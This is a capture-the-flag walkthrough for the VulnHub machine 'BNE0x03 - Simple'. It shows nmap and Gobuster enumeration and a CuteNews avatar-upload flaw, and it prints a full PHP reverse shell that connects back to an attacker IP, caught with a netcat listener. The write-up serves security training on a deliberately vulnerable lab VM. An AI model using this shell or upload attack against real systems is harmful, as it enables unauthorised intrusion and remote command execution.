# SecTalks: BNE0x03 - Simple

- **Machine:** SecTalks: BNE0x03 - Simple
- **Download:** https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/



---

# Machine Setup

1. Open the downloaded OVA file in VirtualBox.
2. Click **Finish**.
3. Start the virtual machine.

---

# Network Scanning

## Discover the Target IP

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Nmap Scan

Perform a complete scan to identify open ports, services, operating system details, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.220
```



---

## Optional Port Enumeration

```bash
nmap -v -p- 192.168.2.220
```

```bash
nmap -sC -sV -A 192.168.2.220
```

---

## HTTP Enumeration

Run the HTTP enumeration NSE script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.220
```



---

# Web Enumeration

Visit the target website.

```text
http://192.168.2.220/
```



---

## Directory Enumeration

Brute-force directories using Gobuster.

```bash
gobuster dir -u http://192.168.2.220 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,bak
```



---

## Identify the CMS Version

The target is running **CuteNews**. Search for publicly available exploits.

Reference:

```text
https://www.exploit-db.com/raw/37474
```



The exploit abuses the avatar upload functionality available to authenticated users.

---

# User Registration

Create a new account by selecting **Register** and using the following details.

```text
Username : test
Nickname : test
Password : test
Confirm  : test
Email    : test@test1.com
```



After registration, log in and navigate to:

```text
Personal Options
```



---

# Reverse Shell

Create a PHP reverse shell.

```bash
nano shell.php
```

Paste the following PHP reverse shell (update the IP address and port to match your attack machine).

```php
<?php

// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.2.219';   // CHANGE THIS
$port = 443;             // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();

    if ($pid == -1) {
        exit(1);
    }

    if ($pid) {
        exit(0);
    }

    if (posix_setsid() == -1) {
        exit(1);
    }

    $daemon = 1;
}

chdir("/");
umask(0);

$sock = fsockopen($ip,$port,$errno,$errstr,30);

$descriptorspec=array(
0=>array("pipe","r"),
1=>array("pipe","w"),
2=>array("pipe","w")
);

$process=proc_open($shell,$descriptorspec,$pipes);

stream_set_blocking($pipes[0],0);
stream_set_blocking($pipes[1],0);
stream_set_blocking($pipes[2],0);
stream_set_blocking($sock,0);

while(1){

if(feof($sock)) break;
if(feof($pipes[1])) break;

$read_a=array($sock,$pipes[1],$pipes[2]);

stream_select($read_a,$write_a,$error_a,null);

if(in_array($sock,$read_a)){
    $input=fread($sock,$chunk_size);
    fwrite($pipes[0],$input);
}

if(in_array($pipes[1],$read_a)){
    $input=fread($pipes[1],$chunk_size);
    fwrite($sock,$input);
}

if(in_array($pipes[2],$read_a)){
    $input=fread($pipes[2],$chunk_size);
    fwrite($sock,$input);
}

}

fclose($sock);
proc_close($process);

?>
```

---

## Upload the Payload

Upload the PHP shell through the **Personal Options** avatar upload feature.



After the upload completes, browse to the uploads directory.

```text
http://192.168.2.220/uploads/
```



---

## Start the Listener

On the attacker machine, start a Netcat listener.

```bash
nc -nlvp 443
```

Open the uploaded PHP file from the browser.

The reverse shell connects back to the listener.



---

# Key Learning

- Enumerate the target CMS and determine its version.
- Search for public exploits related to the identified software.
- Register low-privileged accounts whenever user registration is enabled.
- Review profile features such as avatar uploads for file upload vulnerabilities.
- Weak file upload validation can allow arbitrary PHP code execution.
- Always establish a reverse shell before beginning local privilege escalation.

---

# Summary

The target was enumerated with Nmap and Gobuster, revealing a CuteNews installation. Research identified a known vulnerability that allowed authenticated users to upload a malicious PHP file through the avatar upload functionality. After creating a standard user account, the crafted PHP reverse shell was uploaded successfully. Accessing the uploaded file executed the payload and established a reverse shell, providing command execution on the target system.